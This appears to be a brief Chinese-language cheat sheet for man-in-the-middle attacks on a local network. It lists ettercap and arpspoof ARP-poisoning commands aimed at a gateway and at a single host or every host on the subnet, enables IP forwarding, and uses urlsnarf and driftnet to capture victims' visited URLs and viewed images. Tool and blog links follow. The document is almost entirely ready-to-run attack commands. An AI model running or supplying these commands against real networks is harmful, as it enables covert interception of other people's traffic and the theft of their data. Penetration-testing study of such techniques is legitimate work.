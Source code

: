 






```bash
ettercap -Tqi ens33 -M arp:remote /192.168.72.1// ///
-T 文本模式
-q 安静模式 抓到数据包后不显示
-i 选择网络接口
-M 选择模式
注：（如果想欺骗局域网的所有主机可写成：ettercap -Tqi wlan0 -M arp：remote  /// /网关ip//）


ettercap -i eth0 -T -M arp:remote /10.0.0.1/ // 欺骗局域网内所有主机
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ /10.0.0.12/ 欺骗IP为10.0.0.12的主机

```

## arpspoof

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i ens33 -t 192.168.1.184 192.168.1.1 &>/dev/null

结束：
killall arpspoof
```

## 获取流量内容

web访问情况
```
urlsnarf -i ens33
```
web访问图片
```
driftnet -i ens33
```


## Tools


ettercap

https://github.com/Ettercap/ettercap

bettercap

https://github.com/bettercap/bettercap


## 资料

内网中间人玩法备忘录

http://3xp10it.cc/web/2017/05/16/%E5%86%85%E7%BD%91%E4%B8%AD%E9%97%B4%E4%BA%BA%E7%8E%A9%E6%B3%95%E5%A4%87%E5%BF%98%E5%BD%95/



https://www.s0nnet.com/archives/mitm-ettercap

ettercap安装

http://blog.sina.com.cn/s/blog_15e7bc4bb0102w8la.html